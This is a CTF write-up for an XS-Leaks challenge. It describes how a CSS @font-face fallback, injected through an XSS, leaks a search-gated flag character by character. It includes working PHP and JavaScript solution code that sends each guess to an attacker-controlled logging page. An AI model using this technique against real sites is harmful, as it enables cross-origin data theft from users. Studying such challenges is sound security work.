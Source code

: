 In December I released an [XS-Leaks](https://xsleaks.dev/) [challenge](https://twitter.com/RenwaX23/status/1476523375761756162?s=20) and got one solve from [kunte](https://twitter.com/kunte_ctf)

**Challenge brakedown**

- `Main page` is just a normal static page to interact with other pages
- `POST /note` you can use to upload anything to the server
- `GET /note` will display contents of your uploaded file
- `GET /search` will search for your input and if the contains the flag it will show you your uploaded file content otherwise just a text not found
- `GET /hack` classic simple XSS via `x` parameter

`/note` and `/search` Content-Type is text/plain 

Strict Mime type checking is enabled on the whole app using `X-Content-Type-Options: nosniff`

Very strict CSP also `script-src 'none' ;img-src 'none' ;media-src 'none' ;frame-ancestors 'none' ;frame-src 'none' ;object-src 'none' ;manifest-src 'none'`

The goal is to leak the flag with XS-Search from `/hack` and use `/search` to get a characters one by one, you can download the challenge code [here](https://drive.google.com/file/d/1L8CPwOvXKgnwQS7WGqUuEg4lGr7RzWwk/view) and play with it locally before cåhecking the solution.


**Solution**

When first interacting with it you might get a lot of solutions and ideas in mind but unfortunately from what I tested just one will work

In CSS you can register new fonts for your page using [@font-face](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face) then you can use that font to apply on any element, also we have [font fallback](https://stackoverflow.com/a/4673992) for browser compatibility. It's possible for an element to have many fonts like `h1{font-family: first, second}` the browser first will check if the system or page supports `first` if not it will fallback to display the content font based on `second` 

Using this trick we can use it for our challenge, first we will upload a new font (woff2 is best) then with the XSS register two new fonts `first` it will point to `/search?q=flag{` and `second` font will point to our webhook `example.com`, add a new element and set the fonts to it, the browser will send a request to `/search?q=flag{` and register the `first` font if our search is true that means the page is valid and the parser is able to parse the font and it will show the element with it therefore `second` font is not called, but if the page responds with `Not Found` it will show a font parsing error and fallback to `second` wich will make a request to our webhook. that way we know the character is not correct and continue bruteforcing until we don't get a request.


**Solution Code**

First upload a woff2 font and change `target` to your challenge url

```php
<?php  
isset($_GET['source']) && highlight_file(__FILE__) && die();

if(isset($_GET['cc'])){
$fp = fopen('data.txt', 'w');
fwrite($fp, $_GET['cc']);  
fclose($fp);  
}

if(isset($_GET['clear'])){
$fp = fopen('data.txt', 'w');
fwrite($fp, "");  
fclose($fp);  
}
?>  

<body onclick="start();this.removeAttribute('onclick')">
<h1 id=state></h1>
<br>
<h1 id=log>click me</h1>

<script>
var target = 'http://localhost:5566'
var win=''
var flag = 'flag{'
var chs ='abcdefghijklmnopqrstuvwxyz_0123456789}'
var arr=chs.split('')
function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}
var current=''
var correct=false;

function start(){
    fetch(location.href+'?&clear=1')
    win = window.open('about:blank','win'); leak();
}

async function leak(){
for(x in arr){
current=arr[x];
state.innerText='Checking: '+current
win.location=`${target}/hack?x=%3Cstyle%3E+@font-face+{+font-family:+check;+src:+url(%22search/?q=${flag+current}%22)+}+@font-face+{+font-family:+leak;+src:+url(%22${location.href}?cc=${current}%22)+}+h1+{+font-family:++check,+leak+}+%3C/style%3E+%3Ch1%3Ehello`;
await sleep(400);
await check()
if(correct)
break;

}
}



async function check(){
await fetch(location.href.substring(0, location.href.lastIndexOf('/'))+'/data.txt',{cache:'no-cache'}).then((v)=>v.text()).then((v)=>{
if(current!=v){
correct=true;
flag+=current
fetch(location.href+'?&clear=1')
if(v!='}'){
setTimeout(()=>{correct=false;leak()},400)
}
}
})
log.innerText=flag
}
</script>
</body>

```
